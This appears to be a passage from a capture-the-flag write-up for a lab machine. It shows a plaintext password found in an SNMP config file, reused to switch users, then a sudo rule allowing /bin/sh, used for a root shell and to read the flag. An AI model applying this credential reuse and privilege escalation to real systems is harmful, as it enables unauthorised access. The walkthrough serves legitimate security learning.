 ``` bash
# include a all *.conf files in a directory
includeDir /etc/snmp/snmpd.conf.d


createUser bootstrap MD5 SuperSecurePassword123__ DES
rouser bootstrap priv

com2sec AllUser default internal
group AllGroup v2c AllUser
#view SystemView included .1.3.6.1.2.1.1
view SystemView included .1.3.6.1.2.1.25.1.1
view AllView included .1
access AllGroup "" any noauth exact AllView none none
svc@mentor:~$   
```
* now we try if we can login as james with the password found in snmpd.conf


``` bash
vc@mentor:~$ su james                                                          
Password: 
james@mentor:/home/svc$ cd
james@mentor:~$ pwd
/home/james
```
* Now we are james just need to find the way to escalate to root
* Start checking with sudo permissions

``` bash
james@mentor:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh
james@mentor:~$ sudo su
Sorry, user james is not allowed to execute '/usr/bin/su' as root on mentor.
james@mentor:~$ sudo /bin/sh
# cd ~
# pwd
/root
# cat root.txt
c4.......................c7

```